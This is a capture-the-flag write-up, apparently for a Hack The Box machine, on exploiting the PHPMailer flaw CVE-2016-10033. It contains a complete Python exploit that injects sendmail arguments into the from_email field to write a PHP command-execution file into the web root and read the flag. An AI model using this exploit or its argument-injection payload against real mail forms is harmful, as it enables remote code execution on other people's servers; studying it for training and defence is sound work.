# Letter Dispair

The machine exposed a directory index when browsing to http://ip:port, there was a mailer.php script left and it was possible to download a zip file containing the source code. After reading through the soruce code once it googled for email vulnerabilities and CVE-2016-10033 was the first one I found.  A lot of things looked right at first glance, and when I saw that I could control the fifth `$additional_parameters` param sent to the `mail` 
function I decided to try and exploit it. 

This machine was vulnerable to the [PHPMailer vulnerability - CVE-2016-10033](https://github.com/opsxcq/exploit-CVE-2016-10033). 

The exploit was fairly straight forward. `from_email` sets the `$additional_parameters` param that we use to control where to write the mail log files to.
The file is written to `/var/www/html/exploit.php` which is a location that we're allowed to execute php files in. The payload then contains `<?php system('cat /flag.txt');?>`
which will be written to the php file and then parsed and executed when visiting the file. 


```python
import requests
import sys

host = "http://206.189.124.56:30753" # Host to attack
url = host + "/mailer.php" # Path tho the mail application
filename = "exploit.php"; # The name our uploaded file will get

data = {
        "from_email": "-OQueueDirectory=/tmp -X/var/www/html/" + filename, # Write logs to this dir.
        "from_name": "", # important - must be empty
        "subject": "<?php system('cat /flag.txt');?>", # Payload
        "email_body": "What ever",
        "email_list": "foo@bar.com"
}

res1 = requests.post(url,data=data, files=dict(foo='bar')) # files=dict to force multipart/form-data

if res1.status_code != 200:
    print("Explpoit failed Status Code - ", res1.status_code)
    sys.exit()

res2 = requests.get(host+"/"+filename)

flagIndex = -1
flagStopIndex = -1
if res2.status_code == 200:
    flagIndex = res2.text.find("HTB{")
    flagStopIndex = res2.text.find("}", flagIndex)

if flagIndex > -1:
    print("Found flag - ", res2.text[flagIndex:flagStopIndex+1])
    print("URL-  " + host + "/" + filename)
else:
    print("no flag")
```

